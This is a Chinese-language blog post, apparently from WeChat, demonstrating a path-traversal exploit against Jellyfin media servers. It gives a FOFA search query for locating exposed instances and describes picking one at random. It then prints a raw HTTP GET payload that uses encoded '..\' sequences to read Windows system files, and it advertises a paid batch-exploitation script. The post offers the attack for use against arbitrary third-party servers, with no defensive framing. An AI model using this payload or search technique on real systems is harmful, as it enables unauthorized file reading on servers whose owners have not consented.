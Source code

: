 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/v5x5S8A60d6Eti8WloSsxQ)

fofa 语句：  

title="Jellyfin"

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv2oamSQ9LrMjLZZrJQSIBzbhTpcOzmjPeNjKdZIM7hicrzLKRaYVWOHSrbIXRJgPstS4NzZQcoIgOw/640?wx_fmt=png)

我们随便点一个进入  

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv2oamSQ9LrMjLZZrJQSIBzbFP80cYCYBib365FuVvuogpPMJQ1Bo6IpIZUxtbBu1Y6R0qSefeVSHuA/640?wx_fmt=png)

接着我们使用 POC  

```
GET /Audio/1/hls/..%5C..%5C..%5C..%5C..%5C..%5CWindows%5Cwin.ini/stream.mp3/
Host:xxx.xxx.xxx.xxx
Content-Type: application/octet-stream
```

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv2oamSQ9LrMjLZZrJQSIBzbKicjAApoPaWIkd2xfJBNjSXHKLL79jHyiadof42bDsCicgXRk7pPHUEmw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv2oamSQ9LrMjLZZrJQSIBzbmm9xBibr6hIcfdCtcYYzFtEcaz3VaLj7ML9LX3VXh7KfK7hmQkOygqA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv2oamSQ9LrMjLZZrJQSIBzb9ia6MvnTTxWx41KBgwem6UafArLWjEgcUYrCmTqPpPQnJ5hZBib7vR7A/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv2oamSQ9LrMjLZZrJQSIBzbTqibNGvMMibNuJjNibS4JsFYFXwtkPPzcNm9icicPZ9Wd57sh9yaicJJrhNw/640?wx_fmt=png)

python 批量脚本已经放在星球上了

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv2oamSQ9LrMjLZZrJQSIBzbx35CtH3vG9Uk7EoAX7pp8E1IZwbS7QV4uxdgkicCSbmeGE8ZtXOIPmg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv2oamSQ9LrMjLZZrJQSIBzbSOeeBOutwibwPzudVOJg1fc2o8I5UmC8yaKZVjWich8lN9jQrDic28Amg/640?wx_fmt=png)

优惠券只剩下 5，6 张，用完后将不再发放优惠券  

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv2tIK3J1GBGCLb8GVeooQd50gLXzqicYXsc0obViaJNtPnnRGxJb9lcmQ10ZfNLBicm2tAB9hjNPkUFQ/640?wx_fmt=png)

也可以通过下面方式进入

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv2TUW3IicCMgLhsAW8cEUB8FKV3NktCRVJ7W14sblwk73stL4P86DViaCoG069BgrcIFVZShmW6ZbMA/640?wx_fmt=png)